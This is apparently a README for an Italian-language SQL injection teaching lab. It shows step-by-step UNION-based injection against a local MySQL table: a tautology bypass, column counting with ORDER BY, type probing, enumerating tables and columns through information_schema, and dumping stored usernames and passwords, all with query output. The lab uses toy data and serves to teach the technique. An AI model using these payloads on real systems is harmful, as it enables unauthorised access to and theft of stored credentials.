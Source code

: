 # SQLi Lab by Antonio Maulucci

(C) 2024 by Antonio Maulucci licensed under CC BY-NC-ND 4.0

------------

## SQLi

```sql
mysql> select * from utenti where user='' or 1=1;
+------------+----------+
| user       | password |
+------------+----------+
| gioacchino | murat    |
| pippo      | pluto    |
+------------+----------+
2 rows in set (0.00 sec)
```

## Scoprire il numero di colonne della tabella

```sql
mysql> select * from utenti where user='' ORDER BY 1;
Empty set (0.00 sec)

mysql> select * from utenti where user='' ORDER BY 2;
Empty set (0.00 sec)

mysql> select * from utenti where user='' ORDER BY 3;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'
```

## Scoprire il tipo di dati

```sql
mysql> select * from utenti where user='' UNION SELECT 'a', NULL;
+------+----------+
| user | password |
+------+----------+
| a    | NULL     |
+------+----------+
1 row in set (0.00 sec)

mysql> select * from utenti where user='' UNION SELECT 'a', 'a';
+------+----------+
| user | password |
+------+----------+
| a    | a        |
+------+----------+
1 row in set (0.00 sec)
```

## Informazioni sul database

```sql
mysql> select * from utenti where user='' UNION SELECT version(), NULL;
+-------+----------+
| user  | password |
+-------+----------+
| 8.4.0 | NULL     |
+-------+----------+
1 row in set (0.01 sec)
```

## Ottenere i nomi delle tabelle

```sql
mysql> select * from utenti where user='' UNION SELECT table_name, NULL FROM information_schema.tables;
+---------------------------------------+----------+
| user                                  | password |
+---------------------------------------+----------+
-- ..................................................................
| utenti                                | NULL     |
+---------------------------------------+----------+
86 rows in set (0.01 sec)
```

## Nomi degli attributi della tabella utenti

```sql
mysql> select * from utenti where user='' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'utenti';
+----------+----------+
| user     | password |
+----------+----------+
| user     | NULL     |
| password | NULL     |
+----------+----------+
2 rows in set (0.00 sec)
```

## Dati dalla tabella

```sql
mysql> select * from utenti where user='' UNION SELECT user, password FROM utenti;
+------------+----------+
| user       | password |
+------------+----------+
| gioacchino | murat    |
| pippo      | pluto    |
+------------+----------+
2 rows in set (0.00 sec)
```


